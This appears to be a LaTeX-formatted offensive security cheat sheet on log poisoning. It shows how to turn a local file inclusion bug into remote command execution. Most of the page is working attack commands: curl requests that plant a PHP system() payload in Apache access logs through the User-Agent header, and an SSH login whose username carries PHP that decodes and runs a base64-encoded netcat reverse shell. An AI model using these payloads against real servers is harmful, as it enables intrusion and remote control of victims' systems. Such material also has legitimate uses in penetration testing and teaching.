\documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
\hypertarget{log-poisoning}{%
\section*{Log Poisoning}\label{log-poisoning}}

Log Poisoning allows user to execute command remote system using logs files. This technic comes basicaly after finding a LFI
vulnerability and is used for gaining access to the victim system by generating a reverse shell.

\hypertarget{apache2}{%
\subsection*{Apache2}\label{apache2}}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s }\StringTok{"http://localhost/example.php?file=/var/log/apache2/access.log"}

\ExtensionTok{curl}\NormalTok{ -s -H }\StringTok{"User-Agent: <?php system('whoami'); ?> "}\NormalTok{http://localhost/example.php?file=/var/log/apache2/access.log}\StringTok{"}
\end{Highlighting}
\end{Shaded}

\hypertarget{ssh-logs}{%
\subsection*{ssh logs}\label{ssh-logs}}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s }\StringTok{"http://localhost/example.php?file=/var/log/auth.log"}
\BuiltInTok{echo} \StringTok{"nc -e /bin/bash 127.0.0.1 443"} \KeywordTok{|} \ExtensionTok{base64}\KeywordTok{;} \BuiltInTok{echo}

\CommentTok{#output}
\ExtensionTok{bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMSA0NDMK}


\FunctionTok{ssh} \StringTok{'<?php system("echo bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMSA0NDMK | base64 -d | bash"); ?>'}\NormalTok{@127.0.0.1}
\end{Highlighting}
\end{Shaded}
\end{document}
